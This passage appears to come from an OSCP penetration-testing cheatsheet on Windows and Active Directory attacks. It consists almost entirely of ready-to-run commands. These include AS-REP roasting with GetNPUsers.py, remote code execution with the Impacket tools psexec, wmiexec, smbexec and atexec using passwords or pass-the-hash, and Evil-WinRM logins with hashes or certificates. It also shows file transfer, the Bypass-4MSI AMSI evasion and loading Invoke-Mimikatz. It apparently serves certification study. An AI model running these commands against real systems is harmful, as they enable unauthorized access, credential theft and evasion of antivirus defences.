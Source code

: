 ```shell

GetNPUsers.py test.local/ -dc-ip <IP> -usersfile usernames.txt -format hashcat -outputfile hashes.txt #Asreproasting, need to provide usernames list

##RCE
psexec.py test.local/john:password123@10.10.10.1
psexec.py -hashes lmhash:nthash test.local/john@10.10.10.1

wmiexec.py test.local/john:password123@10.10.10.1
wmiexec.py -hashes lmhash:nthash test.local/john@10.10.10.1

smbexec.py test.local/john:password123@10.10.10.1
smbexec.py -hashes lmhash:nthash test.local/john@10.10.10.1

atexec.py test.local/john:password123@10.10.10.1 <command>
atexec.py -hashes lmhash:nthash test.local/john@10.10.10.1 <command>

```

## Evil-Winrm

[](https://github.com/peterrakolcza/OSCP-Cheatsheet#evil-winrm)

```shell
##winrm service discovery
nmap -p5985,5986 <IP>
5985 - plaintext protocol
5986 - encrypted

##Login with password
evil-winrm -i <IP> -u user -p pass
evil-winrm -i <IP> -u user -p pass -S #if 5986 port is open

##Login with Hash
evil-winrm -i <IP> -u user -H ntlmhash

##Login with key
evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S #-c for public key and -k for private key

##Logs
evil-winrm -i <IP> -u user -p pass -l

##File upload and download
upload <file>
download <file> <filepath-kali> #not required to provide path all time

##Loading files direclty from Kali location
evil-winrm -i <IP> -u user -p pass -s /opt/privsc/powershell #Location can be different
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz

##evil-winrm commands
menu # to view commands
#There are several commands to run
#This is an example for running a binary
evil-winrm -i <IP> -u user -p pass -e /opt/privsc
Bypass-4MSI
menu
Invoke-Binary /opt/privsc/winPEASx64.exe
```
